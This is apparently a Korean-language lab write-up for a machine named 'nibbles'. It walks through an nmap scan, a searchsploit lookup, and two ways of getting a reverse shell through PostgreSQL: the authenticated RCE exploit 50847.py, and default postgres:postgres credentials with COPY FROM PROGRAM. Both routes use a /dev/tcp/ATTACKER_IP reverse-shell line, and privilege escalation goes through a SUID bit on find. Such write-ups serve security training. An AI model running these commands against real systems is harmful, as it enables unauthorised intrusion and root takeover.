






## 정보 수집
nmap을 통해 포트 스캔을 수행함.
```
└─$ nmap -p$ports -sC -sV -Pn 192.168.243.47
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-19 08:07 EDT
Nmap scan report for 192.168.243.47
Host is up (0.20s latency).

PORT     STATE  SERVICE      VERSION
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Enter a title, displayed at the top of the window.
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.9
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Not valid before: 2020-04-27T15:41:47
|_Not valid after:  2030-04-25T15:41:47
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.99 seconds
```

searchsoloit으로 PostgreSQL 검색 시 9.3-11.7 버전에 해당하는 RCE CVE를 확인.
```
└─$ searchsploit PostgreSQ      
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
PnPSCADA v2.x - Unauthenticated PostgreSQL Injection                 | hardware/webapps/51448.txt
PostgreSQL - 'bitsubstr' Buffer Overflow                             | linux/dos/33571.txt
PostgreSQL 6.3.2/6.5.3 - Cleartext Passwords                         | immunix/local/19875.txt
PostgreSQL 7.x - Multiple Vulnerabilities                            | linux/dos/25076.c
PostgreSQL 8.01 - Remote Reboot (Denial of Service)                  | multiple/dos/946.c
PostgreSQL 8.2/8.3/8.4 - UDF for Command Execution                   | linux/local/7855.txt
PostgreSQL 8.3.6 - Conversion Encoding Remote Denial of Service      | linux/dos/32849.txt
PostgreSQL 8.3.6 - Low Cost Function Information Disclosure          | multiple/local/32847.txt
PostgreSQL 8.4.1 - JOIN Hashtable Size Integer Overflow Denial of Se | multiple/dos/33729.txt
PostgreSQL 9.3 - COPY FROM PROGRAM Command Execution (Metasploit)    | multiple/remote/46813.rb
PostgreSQL 9.3-11.7 - Remote Code Execution (RCE) (Authenticated)    | multiple/remote/50847.py
PostgreSQL 9.4-0.5.3 - Privilege Escalation                          | linux/local/45184.sh
PostgreSQL 9.6.1 - Remote Code Execution (RCE) (Authenticated)       | multiple/remote/51247.py
--------------------------------------------------------------------- ---------------------------------
```
## 초기 침투(CASE 1)
PoC에 적혀있는 Git주소에 접근하면 사용 방법이 나와있음.


명령어 삽입은 아래와 같이 제한이 걸려있었음.

1) 리버스 쉘은 직접 명령하면 실행이되지 않았음.
2) 5437의외의 포트로 리버스쉘이 실행되지 않았음. 

tmp경로에 poo.sh 파일을 만든 뒤 /bin/bash로 직접 해석한뒤 살행하게함.
```
python 50847.py -i 192.168.108.47 -p 5437 -c 'echo "sh -i >& /dev/tcp/ATTACKER_IP/5437 0>&1" > /tmp/poo.sh'
python 50847.py -i 192.168.108.47 -p 5437 -c '/bin/bash /tmp/poo.sh'
```

netcat으로 리버스쉘이 확인.


## 초기 침투(CASE 2)
postgres:postgres 디폴트 계정으로 SQL에 로그인이 가능했음.
```
└─$ psql -h 192.168.108.47 -p 5437 -U postgres                            
Password for user postgres: 
psql (17.5 (Debian 17.5-1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off, ALPN: none)
Type "help" for help.

postgres=#
```

명령어를 실행할 수 있는 새 테이블을 생성.
```
postgres=# DROP TABLE IF EXISTS cmd_exec;
NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
```
리버스쉘을 poo.sh에 저장한 뒤 /bin/bash로 실행.
```
postgres=# COPY cmd_exec FROM PROGRAM 'echo "sh -i >& /dev/tcp/ATTACKER_IP/5437 0>&1" > /tmp/poo.sh';
COPY 0
postgres=# COPY cmd_exec FROM PROGRAM '/bin/bash /tmp/poo.sh';
```

netcat을 통해 열어두었던 리스너에 리버스쉘이 확인.


## 권한 상승
우선 완전한 쉘로 변경.
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
postgres@nibbles:/var/lib/postgresql/11/main$
```

linpeas.sh 실행하여 find 명령어에 SUID가 설정된 것을 확인.


gtfobins.org 사이트에서 find 명령어로 권한상승하는 명령어가 문서화되어있음.


위에서 찾은 명령어 실행 시 postgres 계정의 euid가 root로 설정됨.



